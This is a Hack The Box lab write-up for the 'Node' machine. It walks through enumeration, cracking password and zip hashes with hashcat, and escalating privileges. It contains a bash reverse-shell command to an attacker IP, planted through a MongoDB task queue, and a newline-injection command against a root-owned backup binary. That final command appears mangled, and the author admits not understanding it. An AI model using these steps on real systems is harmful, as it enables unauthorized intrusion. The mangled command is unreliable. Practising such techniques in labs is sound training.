 # Node

This is my write-up for the machine on Hack The Box called **Node** located at: [https://app.hackthebox.com/machines/Node](https://app.hackthebox.com/machines/Node).

I started off with an nmap scan:

![](<../../.gitbook/assets/image (344) (1).png>)

We see 2 ports open: one for SSH and one for a software known as hadoop-datanode. Port 3000 has a web server running on it:

![](<../../.gitbook/assets/image (347) (1) (1).png>)

I then ran **dirsearch** using the **directory-list-lowercase-2.3-medium.txt** from the dirbuster wordlist directory to see what folders/files I had access to:

`dirsearch -e php,html,js,cgi,bak,txt -u http://10.10.10.58:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`

This showed me the following:

![](<../../.gitbook/assets/image (370) (1) (1).png>)

I read up on [this write-up](https://alamot.github.io/node\_writeup/) which pointed me in the direction of using **burpsuite** in order to see requests incoming. I found one that was interesting and followed it:

![](<../../.gitbook/assets/image (341) (1) (1) (1).png>)

These could be passwords or hashes. I tried the username with the passwords, and this did not work for me. Running the hash for **tom** in **hash-identifier** resulted in the following:

![](<../../.gitbook/assets/image (334) (1).png>)

Running the other hashes resulted in **SHA-256** as well. Using the [hashcat examples website](https://hashcat.net/wiki/doku.php?id=example\_hashes), I then had to find out what the Hash-Mode was:

![](<../../.gitbook/assets/image (345).png>)

Running the hashcat command `hashcat -a 0 -m 1400 hashes rockyou.txt` got me the following:

![](<../../.gitbook/assets/image (348) (1) (1).png>)

It seems that I have cracked the passwords for the users **tom** and **mark**. When I login using those credentials, I get the same result:

![](<../../.gitbook/assets/image (350) (1) (1) (1).png>)

Reading the same write-up from before, I missed the directory above from where I was located at:

![](<../../.gitbook/assets/image (368) (1) (1) (1).png>)

This led me to find a new user: **myP14ceAdm1nAcc0uNT**. I then ran **hashcat** on the new hash (with a new wordlist - not needed, but I just did) and got the following:

![](<../../.gitbook/assets/image (369) (1) (1).png>)

Now we see a different output on the main screen:

![](<../../.gitbook/assets/image (366) (1) (1) (1) (1).png>)

Downloading the backup led me to a large ASCII file:

![](<../../.gitbook/assets/image (363) (1) (1) (1).png>)

I noticed a "**=**" at the end, so I thought it could be base64. Decoding the file led me to a zip folder where the files were password protected:

![](<../../.gitbook/assets/image (367) (1) (1) (1).png>)

Following the write-up mentioned above, I ran the command `cat myplace.backup | base64 -d > backup.zip` in order to make my own zip file. This gave me the same result that I had gotten earlier from using [https://www.base64decode.org/](https://www.base64decode.org) to decode the content of the document for me. I then uploaded zipped file on [this website](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php) and got the following output:

![](<../../.gitbook/assets/image (349) (1) (1).png>)

I will go back to the [example hashes site from hashcat](https://hashcat.net/wiki/doku.php?id=example\_hashes) to see what mode this would be:

![](<../../.gitbook/assets/image (335) (1).png>)

I then ran the hashcat command `hashcat -a 0 -m 17230 pkziphash xato-net-10-million-passwords-1000000.txt` to see if I can crack the password:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1).png>)

I was then able to decode the zip by running `unzip backup.zip`. This created a new directory called **var** in my local directory. In a file called **app.js**, I found the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1).png>)

I was a bit lost about what to do with these credentials, I then read the same write-up again to find out that those credentials would work for **SSH**:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1).png>)

I also learned from the write-up to search for processes being run by tom:

![](<../../.gitbook/assets/image (343).png>)

I do not have a lot of experience with mongo commands work. Between the write-up I have been mentioning previously and [this write-up](https://dumbsec.ninja/htb-node-box-writeup.html) for this machine, I ran the following commands:

`mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k`

`db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/1227 0>&1"'})`

I was then able to get a shell as tom:

![](<../../.gitbook/assets/image (342) (1).png>)

I was then able to read the user.txt:

![](<../../.gitbook/assets/image (336) (1) (1).png>)

From the second write-up (previously mentioned), I learned about the following command, which got me directly to root using the backup process:

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n' <4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n'

![](<../../.gitbook/assets/image (346) (1).png>)

I will be honest. I have been looking at write-ups for this machine and they all seem to use buffer overflows in order to crack the command to get to the root user. I am a bit unsure how the previous command I used to get to root worked. From my understanding, it seems that the backup process was owned by root, and using the backup key, I was able to run the command. Again, not why why this command exactly.
